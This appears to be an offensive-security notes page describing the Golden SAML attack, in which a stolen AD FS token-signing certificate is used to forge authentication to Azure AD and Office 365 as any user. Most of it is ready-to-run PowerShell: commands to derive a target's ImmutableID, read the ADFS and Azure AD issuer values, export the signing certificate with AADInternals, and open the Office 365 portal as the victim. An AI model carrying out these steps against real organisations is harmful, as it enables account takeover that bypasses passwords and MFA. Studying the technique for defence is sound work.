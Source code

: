




**ADFS**

AD FS is a claims-based identity model

- A user is identified by ImmutableID. It is globally unique and stored in Azure AD.
- The ImmuatbleID is stored on-prem as ms-DS-ConsistencyGuid for the user and/or can be derived from the GUID of the user.

##### Abuse

In ADFS, the SAML Response is signed by a token-signing certificate. 

- If this certificate is compromised, it becomes possible to authenticate to Azure AD as any user within Azure AD. 
- Similar to our PTA abuse scenario, actions such as password changes for a user or MFA won't have any effect because we're forging the authentication response. 
- The certificate can be extracted from the ADFS server with DA privileges and subsequently used from any internet-connected machine. 

> This is the essence of the Golden SAML attack.

[Golden SAML](https://www.cyberark.com/resources/threat-research-blog/golden-saml-newly-discovered-attack-technique-forges-authentication-to-cloud-apps)


**On-Prem to Cloud**

From any on-prem machine as a normal domain user, get the ImmutableID of the target user:
```powershell
[System.Convert]::ToBase64String((Get-ADUser -Identity onpremuser | select -ExpandProperty ObjectGUID).tobytearray())
```

On AD FS server (as administrator):
```powershell
Get-AdfsProperties | select identifier
```

Check the IssuerURI from Azure AD too (Use MSOL module and need GA privileges):
```powershell
Get-MsolDomainFederationSettings -DomainName deffin.com | select IssuerUri
```

> [Note] When setting up the AD FS using Azure AD Connect, there is a difference between IssuerURI on the ADFS server and Azure AD. Use the one from Azure AD.


With DA privileges on-prem, we can extract the ADFS token signing certificate from the ADFS server using AADInternals:
```powershell
Export-AADIntADFSSigningCertificate
```

Use the below command from AADInternals to access cloud apps as the user whose immutableID is specified:
```powershell
Open-AADIntOffice365Portal -ImmutableID v1pOC7Pz8kaT6JWtThJKRQ== -Issuer http://deffin.com/adfs/services/trust -PfxFileName C:\users\adfsadmin\Documents\ADFSSigningCertificate.pfx -Verbose
```
